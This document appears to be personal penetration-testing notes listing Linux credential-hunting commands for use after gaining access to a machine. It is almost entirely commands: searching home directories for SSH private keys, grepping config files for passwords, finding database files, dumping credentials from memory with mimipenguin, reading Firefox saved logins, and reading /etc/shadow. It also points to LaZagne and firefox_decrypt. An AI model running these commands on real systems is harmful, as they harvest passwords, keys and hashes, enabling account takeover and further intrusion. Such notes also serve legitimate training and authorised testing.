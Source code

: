 Check the bash history
```shell-session
>history
```

SSH

private
```shell-session
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```
public
```shell-session
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

Searching cronjobs
```shell-session
cat /etc/crontab
```
```shell-session
ls -la /etc/cron.*/
```

Config file search
```shell-session
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
```shell-session
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```
Search for database files
```shell-session
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```
Searching for abstract notes
```shell-session
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```
Searching for scripts
```shell-session
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

Logs
![[Pasted image 20240915004009.png]]

Memory/Cache
```shell-session
sudo python3 mimipenguin.py
```
```shell-session
sudo bash mimipenguin.sh
```
https://github.com/huntergregal/mimipenguin
![[Pasted image 20240915004023.png]]

Lazagne Project 
	https://github.com/AlessandroZ/LaZagne

Browser Creds
```shell-session
ls -l .mozilla/firefox/ | grep default
```
```shell-session
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```
Firefox decrypt
	https://github.com/unode/firefox_decrypt
/etc/shadow
```shell-session
 sudo cat /etc/shadow
```
![[Pasted image 20240915122549.png]]
![[Pasted image 20240915122705.png]]